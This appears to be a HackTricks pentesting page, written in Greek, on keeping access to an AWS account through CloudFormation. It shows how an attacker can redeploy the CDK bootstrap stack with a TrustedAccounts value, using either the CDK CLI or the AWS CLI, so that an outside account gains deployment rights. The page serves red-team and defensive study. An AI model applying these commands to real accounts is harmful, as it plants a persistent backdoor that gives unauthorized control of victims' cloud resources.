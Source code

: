 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Για περισσότερες πληροφορίες, επισκεφθείτε:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

Ο AWS CDK αναπτύσσει ένα CFN stack που ονομάζεται `CDKToolkit`. Αυτό το stack υποστηρίζει μια παράμετρο `TrustedAccounts` που επιτρέπει σε εξωτερικούς λογαριασμούς να αναπτύσσουν έργα CDK στον λογαριασμό του θύματος. Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτό για να αποκτήσει απεριόριστη πρόσβαση στον λογαριασμό του θύματος, είτε χρησιμοποιώντας το AWS cli για να αναπτύξει ξανά το stack με παραμέτρους, είτε το AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
